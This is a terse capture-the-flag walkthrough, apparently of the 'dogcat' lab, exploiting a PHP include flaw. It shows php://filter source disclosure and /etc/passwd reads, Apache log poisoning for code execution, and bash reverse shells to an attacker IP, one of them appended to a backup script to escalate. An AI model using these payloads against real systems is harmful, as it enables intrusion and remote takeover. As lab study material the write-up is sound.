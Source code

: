 start with nmap

http 80 
ssh 22

ffuf

/index.php
/cats
/dogs


http://10.10.222.120/?view=dogs/2.jpg

?view append php after file and try to fetch it.

throw different errors

```
http://10.10.222.120/?view=dogs/../index

Fatal error: Cannot redeclare containsStr() (previously declared in /var/www/html/index.php:17) in /var/www/html/index.php on line 17

```

```
http://10.10.222.120/?view=dogs/../index.php

Warning: include(dogs/../index.php.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dogs/../index.php.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24

```

http://10.10.222.120/?view=pHp://FilTer/convert.base64-encode/resource=dogs/../index

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>


```

got lfi using

```
http://10.10.59.185/?view=php://filter/convert.iconv.utf-8.utf-16/resource=dogs/../../../../../../../../etc/passwd&ext
```

get shell :

```
http://10.10.37.116/?view=dog../../../../..//var/log/apache2/access.log&ext&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.8.133.3%2F1234%200%3E%261%27

```


***

env_reset, mail_badpass,

/opt/backup/

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.8.133.3/1337 0>&1'" >> backup.sh